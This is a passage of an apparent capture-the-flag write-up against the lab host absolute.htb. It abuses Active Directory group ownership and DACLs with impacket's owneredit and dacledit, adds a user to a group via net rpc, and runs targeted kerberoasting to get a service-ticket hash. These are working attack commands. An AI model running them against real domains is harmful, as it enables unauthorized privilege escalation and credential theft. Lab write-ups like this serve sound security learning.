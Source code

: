 Having the virutal environment created clone the repo 

```bash
git clone --branch dacledit https://github.com/ShutdownRepo/impacket.git
```

![](https://i.imgur.com/cE5itl9.png)

Copy the `owneredit.py` by from owneredit branch and install impacket

![](https://i.imgur.com/cJIdNC2.png)

Once it's installed with `owneredit` we are going to make m.lovegod the owner of network audit group

```bash
python3 ./owneredit.py -action write -target 'NETWORK AUDIT' -new-owner 'm.lovegod' 'absolute.htb'/'m.lovegod' -k -no-pass -dc-ip 10.10.11.181
```

![](https://i.imgur.com/sAi9OD3.png)

Now being the owner of aduit group we can give full control to m.lovegod to do anything with the group like adding group members so that m.lovegod can have generic write on win_rm user

```bash
python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'm.lovegod' -target 'NETWORK AUDIT' 'absolute.htb'/'m.lovegod' -k -no-pass -dc-ip 10.10.11.181
```

![](https://i.imgur.com/0iLFSjv.png)

All that is left is to add m.lovegod to audit group with `net rpc`

```bash
net rpc group addmem 'Network Audit' 'm.lovegod' -U absolute.htb/m.lovegod -S dc.absolute.htb -k
```

![](https://i.imgur.com/tzVcJ6R.png)

We need to get the TGT again as the permissions or configurations will be revoked

![](https://i.imgur.com/4wjacGM.png)

With `targeted kerberoasting ` we can add SPN to winrm_user and request for a TGS

```bash
python3 ./targetedKerberoast.py -d absolute.htb  -u m.lovegod --dc-ip 10.10.11.181 -k --no-pass -v
```

![](https://i.imgur.com/1ycMbBy.png)

But this hash was not crackable

All this could be done with windows as well machine and synchronized time with DC, we can do it with `w32tm` but we do need to start the service

```powershell
net start w32time
w32tm /config /manualpeerlist:dc.absolute.htb /syncfromflags:MANUAL /reliable:yes /update
```
